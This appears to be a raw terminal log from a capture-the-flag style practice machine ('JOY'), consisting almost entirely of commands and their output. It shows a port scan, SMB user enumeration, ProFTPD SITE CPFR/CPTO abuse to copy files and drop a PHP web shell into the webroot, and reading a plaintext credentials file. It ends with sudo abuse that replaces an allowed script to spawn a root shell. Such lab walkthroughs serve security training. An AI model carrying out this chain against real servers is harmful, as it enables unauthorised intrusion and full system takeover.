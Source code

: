 https://esc.sh/blog/proftp-vulnerability-could-allow-an-attacker-to-gain-a-shell-in-your-server/
https://www.hackingarticles.in/digitalworld-local-joy-vulnhub-walkthrough/                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -A -Pn -n -p- 192.168.110.18
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 16:11 CEST
Nmap scan report for 192.168.110.18
Host is up (0.00029s latency).
Not shown: 65523 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.2.10
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr-x   2 ftp      ftp          4096 Jan  6  2019 download
|_drwxrwxr-x   2 ftp      ftp          4096 Jan 10  2019 upload
22/tcp  open  ssh         Dropbear sshd 0.34 (protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2016-07-19 20:03  ossec/
|_
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Index of /
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE PIPELINING CAPA TOP STLS SASL RESP-CODES UIDL
|_ssl-date: TLS randomness does not represent time
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: capabilities ENABLE more have post-login Pre-login LITERAL+ LOGINDISABLEDA0001 OK listed SASL-IR IDLE IMAP4rev1 ID STARTTLS LOGIN-REFERRALS
|_ssl-date: TLS randomness does not represent time
445/tcp open  netbios-ssn Samba smbd 4.5.12-Debian (workgroup: WORKGROUP)
465/tcp open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
|_ssl-date: TLS randomness does not represent time
587/tcp open  smtp        Postfix smtpd
|_smtp-commands: JOY.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=JOY
| Subject Alternative Name: DNS:JOY
| Not valid before: 2018-12-23T14:29:24
|_Not valid after:  2028-12-20T14:29:24
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imaps?
| ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
| Not valid before: 2019-01-27T17:23:23
|_Not valid after:  2032-10-05T17:23:23
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=JOY/organizationName=Good Tech Pte. Ltd/stateOrProvinceName=Singapore/countryName=SG
| Not valid before: 2019-01-27T17:23:23
|_Not valid after:  2032-10-05T17:23:23
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:4A:17:2D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts: The,  JOY.localdomain, 127.0.1.1, JOY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m01s, deviation: 4h37m07s, median: 1h59m57s
|_nbstat: NetBIOS name: JOY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.12-Debian)
|   Computer name: joy
|   NetBIOS computer name: JOY\x00
|   Domain name: \x00
|   FQDN: joy
|_  System time: 2021-04-17T00:11:39+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-16T16:11:39
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms 192.168.110.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.14 seconds



Patrick's Directory

total 116
drwxr-xr-x 18 patrick patrick 4096 Apr 17 00:25 .
drwxr-xr-x  4 root    root    4096 Jan  6  2019 ..
-rw-r--r--  1 patrick patrick   24 Apr 17 00:25 8iZhxLORWtcq1csTpUCkrWnFNgufeTFwfmGgoCv2M9UYwf1sVBvlbwJVZOn9r985.txt
-rw-------  1 patrick patrick  185 Jan 28  2019 .bash_history
-rw-r--r--  1 patrick patrick  220 Dec 23  2018 .bash_logout
-rw-r--r--  1 patrick patrick 3526 Dec 23  2018 .bashrc
drwx------  7 patrick patrick 4096 Jan 10  2019 .cache
drwx------ 10 patrick patrick 4096 Dec 26  2018 .config
-rw-r--r--  1 patrick patrick    0 Apr 17 00:25 CtEshOkwGBnnC9Hs38rL4cIeuB78LHBe.txt
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Desktop
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Documents
drwxr-xr-x  3 patrick patrick 4096 Jan  6  2019 Downloads
-rw-r--r--  1 patrick patrick    0 Apr 17 00:15 FttMmlFBk1zYzggrbyYJIWaRtSugpW28.txt
drwx------  3 patrick patrick 4096 Dec 26  2018 .gnupg
-rwxrwxrwx  1 patrick patrick    0 Jan  9  2019 haha
-rw-r--r--  1 patrick patrick   24 Apr 17 00:20 HoPXht8UXdeurk4CLXJCnPBnkWVflqOrFZTuO46YpOjrTYOvxE86r0LeL6MZvkh9.txt
-rw-------  1 patrick patrick 8532 Jan 28  2019 .ICEauthority
-rw-r--r--  1 patrick patrick    0 Apr 17 00:20 KyOstilwHYOoEwSX66yKLEI4xqa9qwx2.txt
drwxr-xr-x  3 patrick patrick 4096 Dec 26  2018 .local
drwx------  5 patrick patrick 4096 Dec 28  2018 .mozilla
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Music
drwxr-xr-x  2 patrick patrick 4096 Jan  8  2019 .nano
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Pictures
-rw-r--r--  1 patrick patrick  675 Dec 23  2018 .profile
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Public
d---------  2 root    root    4096 Jan  9  2019 script
drwx------  2 patrick patrick 4096 Dec 26  2018 .ssh
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 Sun
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Templates
-rw-r--r--  1 patrick patrick    0 Jan  6  2019 .txt
-rw-r--r--  1 patrick patrick  407 Jan 27  2019 version_control
drwxr-xr-x  2 patrick patrick 4096 Dec 26  2018 Videos
-rw-r--r--  1 patrick patrick   24 Apr 17 00:15 vJaOJOYlrulF4RDndH7ZmEIEBP7RbXGi9FnIxDp6nOuJUUSL2bjE37WGXfVQtNtI.txt

You should know where the directory can be accessed.

Information of this Machine!

Linux JOY 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux



└─$ enum4linux -a 192.168.110.18

Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\patrick (Local User)
S-1-22-1-1001 Unix User\ftp (Local User)



└─$ telnet 192.168.110.18 21   
Trying 192.168.110.18...
Connected to 192.168.110.18.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/patrick/version_control
350 File or directory exists, ready for destination name
site cpto /home/ftp/upload/version_control
250 Copy successful
site cpfr /home/ftp/upload/shell.php
350 File or directory exists, ready for destination name
site cpto /var/www/tryingharderisjoy/shell.php
250 Copy successful
quit
221 Goodbye.
Connection closed by foreign host.


└─$ cat version_control                                     
Version Control of External-Facing Services:

Apache: 2.4.25
Dropbear SSH: 0.34
ProFTPd: 1.3.5
Samba: 4.5.12

We should switch to OpenSSH and upgrade ProFTPd.

Note that we have some other configurations in this machine.
1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.


www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy
cat patricksecretsofjoy
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis
www-data@JOY:/var/www/tryingharderisjoy/ossec$ su patrick
su patrick
Password: apollo098765


patrick@JOY:~$ sudo -l
sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test


patrick@JOY:~$ mv script s1
mv script s1
patrick@JOY:~$ mkdir script
mkdir script
patrick@JOY:~$ cd script
cd script
patrick@JOY:~/script$ ls
ls
patrick@JOY:~/script$ echo '#!/bin/bash' > test    
echo '#!/bin/bash' > test
patrick@JOY:~/script$ echo '/bin/bash' >> test
echo '/bin/bash' >> test
patrick@JOY:~/script$ chmod +x test
chmod +x test
patrick@JOY:~/script$ sudo /home/patrick/script/test
sudo /home/patrick/script/test
root@JOY:/home/patrick/script# id
id
uid=0(root) gid=0(root) groups=0(root)
